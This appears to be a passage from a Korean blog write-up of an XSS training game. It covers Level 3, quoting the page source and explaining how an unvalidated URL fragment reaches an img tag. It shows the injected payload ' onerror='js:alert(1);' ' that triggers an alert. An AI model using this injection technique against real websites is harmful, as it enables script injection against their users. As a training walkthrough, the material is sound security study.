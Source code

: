 ```html
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>

  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>

    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>

    <div id="tabContent">&nbsp;</div>
  </body>
</html>
```

`chooseTab` 함수에는 인자로 `num`이 들어가는데, 이 `num`의 값은 아래 부분에 검증이 없이 그대로 들어간다.  

```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
$('#tabContent').html(html);
```

또한 이 `num`의 값은 `URL`에서 `# 뒤의 값`을 가져오게 된다.
따라서 `URL`에 `#` 뒤에 위의 코드에 적절히 들어가 동작하도록 만들어준다면 alert 창을 띄울 수 있을 것 같다.
이에 URL의 # 뒤에 원래 있던 숫자 대신 `' onerror='js:alert(1);' '`을 넣어보았다.
이 경우, 취약점이 존재하던 위의 코드는 아래와 같은 형태가 된다.  

```html
html += "<img src='/static/level3/cloud' onerror='js:alert(1);' '.jpg' />";
$('#tabContent').html(html);
```

`/static/level3/cloud`라는 이미지 파일은 서버에 존재하지 않으므로, `onerror`를 호출하게 되고, 뒤의 `.jpg`는 아무런 역할을 하지 않을 것이다.
그 결과 아래와 같이 `alert` 창을 띄울 수 있었다.  

![](/images/xssgame/xssgame_09.PNG)

---  

## Level 4  

Level 4는 입력한 숫자 만큼 타이머를 만들어 주는 페이지이다.  

![](/images/xssgame/xssgame_10.PNG)
